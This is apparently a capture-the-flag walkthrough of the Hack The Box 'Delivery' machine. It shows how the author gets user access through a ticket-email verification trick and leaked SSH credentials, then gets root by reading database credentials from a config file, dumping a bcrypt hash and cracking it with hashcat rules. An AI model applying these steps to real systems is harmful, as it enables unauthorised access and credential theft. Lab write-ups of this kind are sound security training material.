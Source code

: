 # User

scan

nmap -sS -T4 -A 10.10.10.222

22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)

80/tcp open  http    nginx 1.14.2


#open the web page

#add ip to the hosts file

nano /etc/hosts


#first I tried to signup and add email

#then I realized that the machine wasn't on the internet

#open new ticket

#if you have any error then change the email address beacuse someone else used it

#save the ticket id and the email we will use those

ticket id: 4701529

4701529@delivery.htb


#now we go to Check Ticket Status

#type the email and tickt id

#now,we go to Mattermost server and create an account with the ticket number email then refresh the ticket

#if the server didn't open add the server ip o the hosts

#You have to use ticket number email it gives you when you create the ticket

8113433@delivery.htb.

now what happened that you taked the email that was supposed to be the support email and creat the Mattermost server with it

# the verfing email goes to the ticket view page

#It’s kind of a hack, instead of going to an email it went to the ticket page instead

That should have went to an email address, not the details of the ticket

So you just tricked the application into creating an account when before it wouldn’t let you

#copy/paste that huge link


#the root saied

@developers Please update theme to the OSTicket before we go live.  Credentials to the server are maildeliverer:Youve_G0t_Mail!

Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

#now we have the credintials to access the server

username:maildeliverer

password:Youve_G0t_Mail!

#using ssh to enter

Bingo now you own the user

## Screenshots

![image](https://user-images.githubusercontent.com/24206178/154683068-e2839697-8555-4b2a-a981-bba6d3b00cb4.png)

![image](https://user-images.githubusercontent.com/24206178/154683152-fe35883b-f604-4f95-b4fd-bc991fe42882.png)

![image](https://user-images.githubusercontent.com/24206178/154683083-cc581f88-1a42-4c8e-b06a-b9610df0842d.png)

![image](https://user-images.githubusercontent.com/24206178/154683238-36592571-85da-451f-9f0f-4a6217dbaeee.png)

![image](https://user-images.githubusercontent.com/24206178/154683243-1334f5d2-6933-42a5-a199-0b8d9774cada.png)

![image](https://user-images.githubusercontent.com/24206178/154683255-dca2c774-cddd-489c-a6be-de2c13e05021.png)

![image](https://user-images.githubusercontent.com/24206178/154683248-09cc9c19-958f-41a2-a8ad-7f04d2a7ed49.png)


# Root

#now we are using maildeliverer

#we will go to the database

/opt/mattermost

find . -type f -name ‘*.config’

json.config

#in sqlsettings

mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)

bingo!!

#credentials to a database

#sql username and password

username:mmuser

pass:Crack_The_MM_Admin_PW

#now we enter the database

mysql --host=127.0.0.1 --user=mmuser --password=Crack_The_MM_Admin_PW


show databases;
Database           |
+--------------------+
| information_schema |
| mattermost         |

use mattermost;

show tables;

Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
| ChannelMemberHistory   |
| ChannelMembers         |
| Channels               |
| ClusterDiscovery       |
| CommandWebhooks        |
| Commands               |
| Compliances            |
| Emoji                  |
| FileInfo               |
| GroupChannels          |
| GroupMembers           |
| GroupTeams             |
| IncomingWebhooks       |
| Jobs                   |
| Licenses               |
| LinkMetadata           |
| OAuthAccessData        |
| OAuthApps              |
| OAuthAuthData          |
| OutgoingWebhooks       |
| PluginKeyValueStore    |
| Posts                  |
| Preferences            |
| ProductNoticeViewState |
| PublicChannels         |
| Reactions              |
| Roles                  |
| Schemes                |
| Sessions               |
| SidebarCategories      |
| SidebarChannels        |
| Status                 |
| Systems                |
| TeamMembers            |
| Teams                  |
| TermsOfService         |
| ThreadMemberships      |
| Threads                |
| Tokens                 |
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+

select * from Users;

| dijg7mcf4tf3xrgxi5ntqdefma | 1608992692294 | 1609157893370 |        0 | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | NULL     |             | root@delivery.htb       |             1 |          |                    |          |          | system_admin system_user |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609157893370 |                 0 |              0 | en     | {"automaticTimezone":"Africa/Abidjan","manualTimezone":"","useAutomaticTimezone":"true"}   |         0 |           |


#we found the hash for the password for the root

now lets get back to the hint that was in 

Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

so now we know the password is a pattern from PleaseSubscribe!

#we need to know the type of the hash

#search for it at https://hashcat.net/wiki/doku.php?id=example_hashes

#Do Ctrl + f on the page and type $2a$ then which one matches

it is bcrypt $2*$, Blowfish (Unix)


echo PleaseSubscribe! > pass.txt is your wordlist
echo $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO > h.hash is your hash

ls -l /usr/share/hashcat/rules/

#And pick one, one of them will work

root@kali:/usr/share/hashcat/rules# hashcat -m 3200 hash.hash pass.txt -r best64.rule

maildeliverer@Delivery:~$ su root

Password: 
root@Delivery:/home/maildeliverer# whoami

root

cat /root/root.txt

# Screenshots

![image](https://user-images.githubusercontent.com/24206178/154683335-7f37ccdc-2812-4fbd-a820-39e0bdf5aa3a.png)

![image](https://user-images.githubusercontent.com/24206178/154683355-bd69b018-50c7-46c3-8a77-cb924a549b42.png)

![image](https://user-images.githubusercontent.com/24206178/154683372-149490c0-7e9b-4353-b597-4a515a833451.png)

